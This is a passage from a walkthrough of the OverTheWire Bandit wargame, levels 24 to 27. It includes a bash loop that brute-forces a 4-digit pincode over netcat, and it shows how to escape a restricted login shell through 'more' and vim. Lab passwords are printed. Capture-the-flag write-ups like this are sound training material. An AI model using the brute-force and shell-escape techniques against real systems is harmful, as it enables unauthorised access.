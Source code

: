 ```sh
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
bandit24@bandit:/tmp/pass25$ 
```
***Bruteforce Script***
```sh
#!/bin/bash

for i in {0000..9999}
do
        echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> brute.txt
done

cat brute.txt | nc localhost 30002 > result.txt

```


# Bandit Leve 25 → Level 26 & Bandit Leve 26 → Level 27 : #
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

Bandit Leve 26 → Level 27

Good job getting a shell! Now hurry and grab the password for bandit27!

**Explanation:**
First, we need to check what shell the user bandit26 used. We do this by looking in the correct line in the ‘passwd’ file.
```sh
$ ssh bandit25@bandit.labs.overthewire.org -p 2220

cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```
What exactly has happened? The text in ’text.txt’ is very short, meaning the whole text can immediately be displayed. more does not need to go into command/interactive mode. If we make the terminal window smaller, more will go into command mode. We can then use v to go into vim. Now we can rescale the window.
```sh
bandit25@bandit:~$ ls
bandit26.sshkey
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to localhost closed.
bandit25@bandit:~$ 

# Reduce the size of the terminal to enable 'more' to paging through text one screenful at a time. 
# Max height = 6

  _                     _ _ _   ___   __  
```